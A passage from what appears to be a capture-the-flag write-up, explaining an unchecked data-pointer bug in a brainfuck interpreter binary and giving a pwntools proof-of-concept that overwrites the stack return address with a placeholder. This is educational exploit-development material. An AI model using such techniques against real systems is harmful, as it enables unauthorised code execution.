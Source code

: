 ```c
      // [...]
    }
    bf_rip++;
  }
}
```

The binary first reads the input into `&bf_code`, which is at `0x6010a0`. It then goes through each byte of the code and interprets it. You'll also note that `data_buf` is a buffer on the stack, and the `p_data_ptr` points to the start of `data_buf` initially. When the code interprets the `<` and `>` operators, it simply moves the `p_data_ptr` without any bounds checking, which is the bug.

The PoC I wrote essentially uses this bug to set the `p_data_ptr` to point to the return address on the stack, and then overwrites it with "AAAA":

```python
#!/usr/bin/env python3

from pwn import *

p = process("./userland")

# Userland: loop until bf_rip points to return address
bf  = b"+[>,]" # Skip until right before canary
bf += b">"*0x12 # Skip past canary and saved rbp
bf += b"+[,>,]" # Start overwriting return address
bf += b"!"

# This is the input to the `,` operators from above
bf += b"\x01"*(4101) + b"\x00" # Enough 0x1 bytes to get to ret addr, then stop
bf += b"A\x01"*4 # Overwrite return address
bf += b"\x00"*2 # Two null bytes to stop the bof

p.sendafter("!): ", bf)

p.interactive()
```

If you're not familiar with brainfuck, it's really easy. Just have a read of [this page](http://cocoadocs.org/docsets/Brainfuck/0.0.1/). I basically used `gdb.attach(p)` and experimentally found that moving the data pointer forward 4101 times in a loop gets us to one byte before the canary, at which point the "\x00" byte will stop the loop. 

We can't skip the canary in the loop because looping requires us to use the `,` operator to write either a 0x1 byte to continue the loop, or a 0x0 byte to stop the loop (for control flow info, [this](https://gist.github.com/roachhd/dce54bec8ba55fb17d3a) might help), so we instead skip past the canary and saved rbp manually with the required number of `>` operators.

Once we've done that, we start yet another loop. This time, we read a byte, move the data pointer forward by one, and then read our condition byte. As long as our condition byte is non-null, we continue looping and overwriting one byte at a time (this is where the `b"A\x01"*4` comes from). Once we've finished overwriting the stack, we can insert two null bytes to stop this loop and finish.

# Reversing - Kernel
